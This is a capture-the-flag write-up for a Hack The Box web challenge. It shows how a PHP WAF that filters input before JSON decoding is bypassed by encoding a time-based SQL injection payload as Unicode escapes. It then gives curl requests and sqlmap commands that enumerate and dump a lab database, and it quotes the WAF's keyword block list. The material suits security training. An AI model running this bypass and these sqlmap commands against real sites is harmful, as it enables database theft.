# Waf-Waf-Challenge-HTB



When we open the page we get:



We can see what looks like the ```index.php``` of the page.
In the script you can see that a SQL database is queried and the input of POST requests is filtered using a basic WAF (Web Application firewall), implemented through the ```waf()``` function of the ```db``` class.



The script ends immediately when at least one of the following characters or strings is found
in the input string:

```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where,
as, is, in, not, having
```

The check is not case sensitive.
So this looks like vulnerable to a SQL injection.

Checking what happens when we make a request with one of the words that are filtered by the waf:

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"select"}'
array(1) {
  [0]=>
  string(6) "select"
}
```

A subsequent json_decode is performed on the input string, for what the script expects to receive JSON objects.
Because decoding the string happens after the function checks waf () we can take advantage of the fact that in JSON it is possible to encode characters in UTF-16, which when decoding the JSON, will return to the format original.
Let's do a test:

Para ello haremos una peticion POST con curl la cual capturaremos con Burp Suite (```http://127.0.0.1:8080 ``` es la dirección y puerto del proxy de burp suite)

```bash
└─# curl http://139.59.174.238:32044/ -X POST -d '{"user":"d"}' -x http://127.0.0.1:8080  
```



Once the request is captured, we will send it to the repeater

Where we send it and we appreciate the 149 bytes of the response



Later we will test if we can evade the waf with a sqli payload, we will use the following payload ```' or sleep(10) #``` which we will encode it to UTF-16 since as we saw previously we will proceed to a ```json_decode ()```.

I use this [unicode converter](https://www.branah.com/unicode-converter)



Now we load the payload in the request and send it:



Where we can see that we get a 200 and that there are still 149 response bytes.

Now we will copy the request to a file putting ```*``` where we want the payload to be loaded.



To obtain information in this case we will use a Blind SQL Injection and we will execute the following ```sqlmap``` command we should get the databases available:

```bash
─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T --dbs --dbms=mysql
```



We have five databases db_m8452, info_schema, mysql, performance_schema, sys.
Let's extract the list of tables from the database. db_m8452:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 --tables --dbms=mysql
```




The db_m8452 database has two tables, ```definitely_not_a_flag``` and ```notes```. Now let's dump the contents of the table ```definitely_not_a_flag```:

```bash
└─# sqlmap -r requestt.txt -tamper charunicodeescape -v 3 --batch --level=5 --risk=3 --threads=10 --technique=T -D db_m8452 -T definitely_not_a_flag --dump --dbms=mysql
```

many payloads later .. we got the flag.



Byee
